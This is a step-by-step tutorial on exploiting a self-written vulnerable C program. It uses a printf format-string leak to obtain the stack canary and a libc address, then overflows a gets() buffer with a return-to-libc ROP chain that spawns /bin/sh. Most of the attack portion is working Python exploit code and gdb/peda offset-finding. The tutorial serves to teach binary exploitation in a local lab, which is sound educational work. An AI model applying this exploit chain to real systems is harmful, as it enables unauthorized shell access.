








# Return to Libc Exploit with Format Vulnerability

Description
----
In this tutorial I am using an **Ubuntu** linux os.
We will walk through how to exploit a vulnerable program's binary
with a format vulnerability in the code. Using this to our advantage,
we can make the binary leak memory addresses which will allow us to 
bypass some of the binary's hardening features such as: ASLR, NX, and
the stack protector known as a stack canary. 

The ASLR will alter the memory addresses each time the binary is executed. 
We will bypass this by using fixed offsetsf Libc memory addresses. 
As for the stack canary, we need the exact value, and the
value changes on each new execution. We will need a way to communicate
with the binary as it runs so we can leak the canary value and inject it into
our exploit code all in the same process. Here is the vulnerable program's code:
    
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    void vuln(void) {
        char code[200];
        printf("Enter code\nCode: ");
        gets(code);
        printf("Code entered: %s.\n", code);
    }

    int main(int argc, char **argv) {
        char buf[64];
        setvbuf(stdin, 0, 2, 0);
        setvbuf(stdout, 0, 2, 0);
        printf("Write string\nEntered: ");
        read(0, buf, 64);
        printf(buf);
        vuln();
        return 0;
    }

Static Analysis
----
In the main function, the **setvbuf** function is used to create
a buffered stream to *stdin* and *stdout*, where data will be sent
until a new line is reached. This is allows us to communicate with the terminal
that will be executing the binary from another terminal. I use **nc.traditional**
to listen for a connection and executes the binary on successful connection. Back to
the analysis, we can see that 64 bytes are read into the buffer "*buf*" from stdin. 
Then **printf** prints the contents of the buffer, and gives us a chance to leak some 
memory addresses. In short, the **printf** function expects arguments to be passed 
with format specifiers, and since there are no format specifiers in this function call,
we will put some in the buffer, and it will start showing us memory addresses. Continuing to 
the **vuln** function, we see the notorious **gets** function call, which we will exploit
with a buffer overflow. 

Tools
----
In addition to installing **nc.traditional** as mentioned above, I am also using **gcc**
and **gdb** which can also be installed (if not already by default) by your package manager. 
I am also using **Peda**, which is an add on to **gdb** that helps make creating exploits
a little easier. You can download **Peda** from https://github.com/longld/peda. Also, I am
using python to write the exploit, specfically the python2.7-dev package, which can also be
installed via your package manager. For the package manager, I am using **apt**. 

Developing the Exploit
----

First let's compile the vulnerable program with gcc.

You can see some warnings about the vulnerabilities we talked about ealier.

Now let's start investigating this binary with a python script. 

    #!/usr/bin/python2.7

    import socket
    import struct
    from telnetlib import Telnet

    fmt_str = "%12$lx-%13$lx-%14$lx-%15$lx-%16$lx-%17$lx-%18$lx-%19$lx-%20$lx"

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("127.0.0.1", 4321))
    tn = Telnet()
    tn.sock = sock

    tn.read_until("Entered:")
    tn.write(fmt_str+"\n")
    leak = tn.read_until("Code:")
    print("leak: " + str(leak))

We need to make this python file executable with the following command:

Now run the **nc.traditional** command below to interact with the program:

Open a second terminal and run the python exploit:

I'll explain alittle about what this exploit is doing here. First we are creating
a socket to connect to the netcat command running the binary on *localhost* port *4321*.
We are using the telnetlib's function **Telnet** because we can read data from the 
stream *until* a point denoted by text that the program is prompting us with. So we
read up until we reach the point where the program takes user input, and send our 
format string. The numbers between "%" and "$" allow us to directly access an argument at the 
specified number of arguments in to the leak. I seperated each with a *"-"* to make it easier to 
see the corresponding value of each format specifier. The "lx" specifies we want to read a *long integer*, 
which is the size of stack memory addresses. In x86_64, the first six addresses are from registers
*rdi, rsi, rdx, rcx, r8, r9*, and in the rest of the addresses are off the stack.
The **printf** function will read the format specifiers we pass to it and print addresses
from where it would expect the corresponding arguements to be in memory. 

### Finding Offsets

There are two values we want to find in the leak: the stack canary, and a libc address.
The stack canary will be a 64 bit address that ends with a null byte *"0x00"*. The libc address 
will be 6 bytes and start with "0x7f". As we can see from the output from our exploit, the stack
canary corresponds to the format specifier *%17$lx* and a libc address is at *%19$lx*. The libc
address will be at a fixed offset from the location where the libc base is loaded. The addresses
will change, but it libc functions will always be at the same offset from where libc's base is loaded 
into memory. So lets open the binary in **gdb** and find the offset to the libc base. 

Here we set a breakpoint at the main function, and run the program. The program will stop
executing when it hits the start of the main function. This gives us a chance perform 
some analasis on our binary and map out some offsets. Next we will look at the processes 
mappings to determine where the libc base is loaded into the binary. 

The libc file being linked is */usr/lib/x86_64-linux-gnu/libc-2.31.so*, and it is
loaded into the memory address *0x7ffff7dc4000*. This is without aslr (gdb has aslr
off by default), but this address will change one every execution. So lets continue 
debugging and get the value of our libc address with a format string. 

We continue the execution and enter the direct access format string for the leaked
libc address found earlier. Hit enter to continue pass the prompt to enter code, we will
deal with this part soon. Subtract the libc base from the address we just leaked,
and this will give us the offset to the libc base. Now we will find gadgets to use in our 
exploit by adding their offsets to the libc address. This is where **peda** really helps.
If you have downloaded **peda** and installed **gdb** but have not figured out how to configure 
the two, I will explain really quick how to do so. Open a terminal and in your home directory should 
be a hidden file *"~/.gdbinit"*. Open this with a text editor, you will need sudo privilages.
For example:
    sudo nano ~/.gdbinit
Then in the file write the following line:
    source ~/peda/peda.py
You can also set the dissasembly language to intel, which is what I am using, by adding
this line as well:
    set dissasembly intel

This exploit is going to manipulate the vulnerable program into return a *shell*, but
rather than use shellcode, we are going to find */bin/sh* in the binaries memory. Then we 
will execute the shell with a call to *system*, which we also find in memory. The system
command will take */bin/sh* as it's first arguement, which in assembly is the *rdi* register.
So we need a gadget to pop */bin/sh* into *rdi*, which is "*pop rdi*". The final payload 
also needs to be aligned to the stack, we can use a "*ret*" gadget, which will align our 
payload on the stack. Now we will start looking for these gadgets. Open three terminals,
in one, start the program with **nc.traditional** like earlier, and in the second, we will
run the following exploit:

    #!/usr/bin/python2.7

    import socket
    import struct
    from telnetlib import Telnet

    fmt_str = "-%17$lx-%19$lx-"
    libc_offset_from_pos_19 = 0x270b3
    
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("127.0.0.1", 4321))
    tn = Telnet()
    tn.sock = sock
    
    tn.read_until("Entered:")
    tn.write(fmt_str+"\n")
    leak = tn.read_until("Code:")
    canary = int(leak.split("-")[1], 16)
    libc_addr = int(leak.split("-")[2], 16)
    libc_base = libc_addr - libc_offset_from_pos_19
    print("[*] Canary: " + hex(canary).strip("L"))
    print("[*] Libc Base: " + hex(libc_base))
    sock.recv(1024) #this will keep the program from ending so we can debug the process

And the out put should look similar to this:

As you can see, the process is still running. In the third terminal run this command to find
the process id of the running program (assuming you named the vulnerable program fmtv):

Your pid's will be different, but we want the pid of the middle one that ends in just "./fmtv".
So in my case the pid I need it 3757. Now run gdb and attach this process to debug. You will need
to use sudo privilleges here to be able to attch the process. 

After attaching we will look for the offsets we need, starting with a system call. On x86_64, 
we actually want the offset from "*do_system*" rather than "*__libc_system*". Disassemble 
"*system*" to find the address of "*do_system*". Then type "*info proc mappings*" and get
the address where libc base is located. Now subtract the libc address from the "*do_system*" 
address.

It is a similar process to find the offset of "*/bin/sh*", but instead we use the *find*
method in gdb, and provide the path of libc.so file (can be seen on "*info proc mappings*"), 
to provide the *find* method a range to search through. 

Now we will use the **peda** command *ropsearch* to find the "*pop rdi*" and "*ret*" gadgets.
This will provide quite a few results, you can choose any of them, I am using the first result.
Finding the offset is the same as above.

Finding the "*ret*" gadget is exactly the same as above.

Now we have all our gadget offsets, assign them variables in the exp.py script. 
The next step will be finding the offset of the canary from the **vuln** function 
in the vulnerable program, and overflowing the buffer.

### Buffer Overflow

To find where the canary is in respects to the **vuln** function, use the **peda**
command *pattern create* to create a string of uniquely identifiable characters to write 
to stdin. This will allow us to find the offset of the canary by calculating the unique set
of charaters in the pattern that appear right before the canary in memory. We already know the
buffer size in the **vuln** function is 200 by looking at the source code, so let's create a pattern
with the length 200. 

Now in we will write this pattern with our exploit script in the second prompt for input. 

    #!/usr/bin/python2.7

    import socket
    import struct
    from telnetlib import Telnet

    fmt_str = "-%17$lx-%19$lx-"
    libc_offset_from_pos_19 = 0x270b3
    do_sys_offset = 0x54e50
    binsh_offset = 0x1b75aa
    pop_rdi_offset = 0x26b72
    ret_offset = 0x25679

    pattern = "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("127.0.0.1", 4321))
    tn = Telnet()
    tn.sock = sock
    
    tn.read_until("Entered:")
    tn.write(fmt_str+"\n")
    leak = tn.read_until("Code:")
    canary = int(leak.split("-")[1], 16)
    libc_addr = int(leak.split("-")[2], 16)
    libc_base = libc_addr - libc_offset_from_pos_19
    print("[*] Canary: " + hex(canary).strip("L"))
    print("[*] Libc Base: " + hex(libc_base))

    tn.write(pattern) 

    sock.recv(1024) #this will keep the program from ending so we can debug the process

Then run the **nc.traditional** command, run the exploit, get the pid of the current running process,
and attach it to gdb. Once attached, we can look at the **vuln** function frame and examine the stack.

Upon examining the stack in the **vuln** function frame, we can see the pattern stop right before the
canary. Using the **peda** command *pattern offset*, we can calculate the offset that portion of the 
pattern. 

The canary is the next address which is 8 bytes, so we add 8 to the offset. Now we can write the
write the canary value at the correct location, avoiding a stack_check_fail when we overflow the 
buffer with the rest of our payload. We also need the offset of the return address (saved rip address).
Type the command *info frame* to see information about the current frame, including the return address
value. 

The saved rip in this frame is 0x00005650aff472de, which we can also see after the canary with 
an 8 byte address between. So once we have written 200 bytes of junk, followed by the canary value,
we need to write 8 more bytes of junk before we can overwrite the return address. Here is what our 
exploit is going to look like now:

    #!/usr/bin/python2.7

    import socket
    import struct
    from telnetlib import Telnet

    pack = lambda x: struct.pack("<Q", x)

    fmt_str = "-%17$lx-%19$lx-"
    libc_offset_from_pos_19 = 0x270b3
    do_sys_offset = 0x54e50
    binsh_offset = 0x1b75aa
    pop_rdi_offset = 0x26b72
    ret_offset = 0x25679

    junk = "A"*200
    rip = "B"*8

    injection = ""

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("127.0.0.1", 4321))
    tn = Telnet()
    tn.sock = sock
    
    tn.read_until("Entered:")
    tn.write(fmt_str+"\n")
    leak = tn.read_until("Code:")
    canary = int(leak.split("-")[1], 16)
    libc_addr = int(leak.split("-")[2], 16)
    libc_base = libc_addr - libc_offset_from_pos_19

    do_system = libc_base + do_sys_offset
    binsh = libc_base + binsh_offset
    pop_rdi = libc_base + pop_rdi_offset
    ret = libc_base + ret_offset

    injection += junk
    injection += pack(canary)
    injection += rip
    injection += pack(ret)
    injection += pack(pop_rdi)
    injection += pack(binsh)
    injection += pack(do_system)

    print("[*] Canary: " + hex(canary).strip("L"))
    print("[*] Libc Base: " + hex(libc_base))
    print("[*] Sending exploit...")
    print("[*] Serving up shell...")

    tn.write(injection + "\n")
    tn.read_until(".")
    tn.interact()

And here is the final exploit in action.

### Finished Exploit

First the format string is sent to exploit the **printf** vulnerability. Then 
we parse the response into intgers, spliting up the canary value and the libc address
into seperate variables. Using the libc address, we subtract the offset we found that 
gets us to the libc base address. Now we can calculate where all our gadgets will be in
memory by adding their offsets to the libc base address, because libc address's are at
a fixed offset from where the libc.so (libc base) file is loaded into memory. Then we start
creating the payload to be injected into the program after overflowing the **vuln** functions
buffer. To overflow the buffer without triggering a *__stack_check_fail* call, we write the exact
amount of bytes (junk) to get to the canary. These can be any byte, *A* is just most common
in buffer overflow examples. Then we write the canary value, using the **pack** function from
python's **struct** module which packs the value into 64 bits in *little endian* bye order. 
That is the byte order that this operating system handles binary data. This is the main reason
for using **python2.7** rather than the most current version. In python version 2, the struct 
module's pack function returns a string, which can be concatenated with our junk strings and
sent to the program in a format it understands best. The struct.pack function in python3 returns
bytes, which cannot be concatenated with our junk strings. Continuing with the injection payload, 
we write 8 bytes of junk to get to the return address (saved rip), and write the packed value 
of the *ret* gadget, which will align our payload to the stack. The stack needs to be 16 byte
aligned. The *ret* instruction will pop 8 bytes of the stack, and return to those 8 bytes 
aligning the stack to 16 bytes. The stack is a *FILO* (first in last out) data structure,
so we are creating our payload knowing the gadget we put in first will be executed last. Next
we write the *pop rdi; ret* gadget, which will pop */bin/sh* string, written next, into the 
*rdi* register. Then we write the *do_system* call, which will execute the string that is
passed to it's first arguement (rdi register). Appending a newline (*"\n"*) to our injection code
will tell the program to stop reading, and we get our shell. Start writting linux commands
to see that the exploit has worked successfully.     